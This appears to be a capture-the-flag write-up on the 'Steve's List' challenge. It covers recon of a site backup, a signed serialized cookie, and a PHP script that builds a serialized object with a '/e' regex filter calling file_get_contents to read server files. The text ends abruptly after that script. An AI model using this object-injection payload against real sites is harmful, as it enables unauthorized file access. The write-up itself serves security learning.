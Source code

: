 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Recon
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ll steves_list_backup
total 156
drwxr-xr-x 5 tehnerd tehnerd  4096 Oct 25 18:30 ./
drwxrwxr-x 3 tehnerd tehnerd  4096 Nov 12 17:11 ../
-rw-r--r-- 1 tehnerd tehnerd   934 Oct 25 18:28 cookies.php
drwxr-xr-x 2 tehnerd tehnerd  4096 Oct 25 18:28 includes/
-rw-r--r-- 1 tehnerd tehnerd   751 Oct 25 18:28 index.php
drwxr-xr-x 2 tehnerd tehnerd  4096 Oct 25 18:30 posts/
-rw-r--r-- 1 tehnerd tehnerd   371 Oct 25 18:29 root_data.php
-rw-r--r-- 1 tehnerd tehnerd 92413 Oct 25 18:28 Steve.png
drwxr-xr-x 2 tehnerd tehnerd  4096 Oct 25 18:28 templates/
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }

```
Lines 19 and 20 show that if the cookie `custom_settings` isn't set aka first visit to the website, then two cookies are set: `custom_settings` and `custom_settings_hash`.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Also, because we have the source code, we know what these values mean:
`custom_settings` - urlencode(serialize(true))


Line 5 of the same file is of key importance to us.

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```
